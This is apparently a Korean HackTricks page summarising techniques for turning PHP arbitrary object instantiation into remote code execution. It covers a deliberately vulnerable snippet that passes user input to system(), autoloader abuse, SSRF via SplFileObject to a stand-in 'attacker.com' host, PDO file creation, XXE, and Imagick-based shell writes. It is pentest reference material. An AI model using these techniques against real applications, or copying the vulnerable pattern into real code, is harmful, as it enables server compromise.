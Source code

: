 # PHP - RCE 객체 생성 악용: new $\_GET\["a"]\($\_GET\["b"])

{{#include ../../../banners/hacktricks-training.md}}

이것은 기본적으로 [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)의 요약입니다.

## 소개

`new $_GET["a"]($_GET["a"])`와 같은 새로운 임의 객체의 생성은 원격 코드 실행(RCE)으로 이어질 수 있으며, 이는 [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)에 자세히 설명되어 있습니다. 이 문서는 RCE를 달성하기 위한 다양한 전략을 강조합니다.

## 사용자 정의 클래스 또는 자동 로딩을 통한 RCE

`new $a($b)` 구문은 객체를 인스턴스화하는 데 사용되며, 여기서 **`$a`**는 클래스 이름을 나타내고 **`$b`**는 생성자에 전달되는 첫 번째 인수입니다. 이러한 변수는 GET/POST와 같은 사용자 입력에서 가져올 수 있으며, 문자열 또는 배열일 수 있거나 JSON에서 다른 유형으로 나타날 수 있습니다.

아래의 코드 스니펫을 고려하십시오:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
이 경우, `$a`를 `App` 또는 `App2`로 설정하고 `$b`를 시스템 명령(예: `uname -a`)으로 설정하면 해당 명령이 실행됩니다.

**자동 로딩 함수**는 그러한 클래스에 직접 접근할 수 없는 경우 악용될 수 있습니다. 이러한 함수는 필요할 때 파일에서 클래스를 자동으로 로드하며, `spl_autoload_register` 또는 `__autoload`를 사용하여 정의됩니다:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
자동 로딩의 동작은 PHP 버전에 따라 다르며, 다양한 RCE 가능성을 제공합니다.

## 내장 클래스에 의한 RCE

사용자 정의 클래스나 자동 로더가 부족한 경우, **내장 PHP 클래스**가 RCE에 충분할 수 있습니다. 이러한 클래스의 수는 PHP 버전 및 확장에 따라 100에서 200 사이입니다. `get_declared_classes()`를 사용하여 나열할 수 있습니다.

관심 있는 생성자는 반사 API를 통해 식별할 수 있으며, 다음 예제와 링크 [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF)에서 확인할 수 있습니다.

**특정 메서드를 통한 RCE에는 다음이 포함됩니다:**

### **SSRF + Phar 역직렬화**

`SplFileObject` 클래스는 생성자를 통해 SSRF를 가능하게 하여, 모든 URL에 연결할 수 있습니다:
```php
new SplFileObject('http://attacker.com/');
```
SSRF는 Phar 프로토콜을 사용하는 PHP 8.0 이전 버전에서 역직렬화 공격으로 이어질 수 있습니다.

### **PDO 악용하기**

PDO 클래스 생성자는 DSN 문자열을 통해 데이터베이스에 연결할 수 있으며, 이는 파일 생성 또는 기타 상호작용을 가능하게 합니다:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

PHP 5.3.22 및 5.4.12 버전까지는 `SoapClient` 및 `SimpleXMLElement` 생성자를 통해 XXE 공격에 취약했습니다. 이는 libxml2의 버전에 따라 달라집니다.

## RCE via Imagick Extension

**프로젝트의 의존성** 분석에서 **Imagick**가 새로운 객체를 인스턴스화하여 **명령 실행**에 활용될 수 있음을 발견했습니다. 이는 취약점을 악용할 기회를 제공합니다.

### VID 파서

파일 시스템의 지정된 경로에 콘텐츠를 쓸 수 있는 VID 파서 기능이 확인되었습니다. 이는 웹에서 접근 가능한 디렉토리에 PHP 셸을 배치하여 원격 코드 실행(RCE)을 달성할 수 있습니다.

#### VID Parser + 파일 업로드

PHP는 업로드된 파일을 `/tmp/phpXXXXXX`에 임시로 저장하는 것으로 알려져 있습니다. **msl** 프로토콜을 사용하는 Imagick의 VID 파서는 파일 경로에서 와일드카드를 처리할 수 있어 임시 파일을 선택한 위치로 전송할 수 있습니다. 이 방법은 파일 시스템 내에서 임의 파일 작성을 달성하는 추가적인 접근 방식을 제공합니다.

### PHP 충돌 + 무차별 대입

[**원본 작성물**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)에 설명된 방법은 삭제 전에 서버 충돌을 유발하는 파일을 업로드하는 것입니다. 임시 파일의 이름을 무차별 대입함으로써 Imagick가 임의의 PHP 코드를 실행할 수 있게 됩니다. 그러나 이 기술은 구버전의 ImageMagick에서만 효과적인 것으로 나타났습니다.

## References

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{{#include ../../../banners/hacktricks-training.md}}
